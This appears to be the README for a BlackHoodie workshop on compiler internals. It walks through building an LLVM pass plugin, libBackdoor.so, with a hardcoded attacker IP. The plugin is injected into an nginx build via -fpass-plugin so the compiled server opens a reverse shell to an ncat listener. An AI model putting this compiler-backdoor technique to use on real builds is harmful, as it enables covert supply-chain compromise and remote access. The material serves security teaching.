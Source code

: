 # BlackHoodie Compilers Internals

Project builds with LLVM v21 and cmake 3.28.3 (minimum)
Building LLVM from scratch: https://llvm.org/docs/GettingStarted.html#getting-the-source-code-and-building-llvm


### Exercise Flow

```
Attacker machine:
sudo apt update
sudo apt install ncat
ncat -lvp 8080

Target machine:
In examples/inject folder:
Edit IP address in Backdoor.cpp to match attacker IP addres, yes it is hardcoded
mkdir build
cd build 
cmake -S ../ -B .; make
Find libBackdoor.so in lib directory!

sudo cp ../inject/build/lib/libBackdoor.so /usr/local/lib

Change into examples/nginx folder
run:
./auto/configure --with-cc=clang --with-cc-opt=-fpass-plugin=/usr/local/lib/libBackdoor.so --prefix=/home/ubuntu/examples/nginx/build

make
make install 
locate nginx binary 
sudo nginx

Enjoy shell on attacker machine!
```
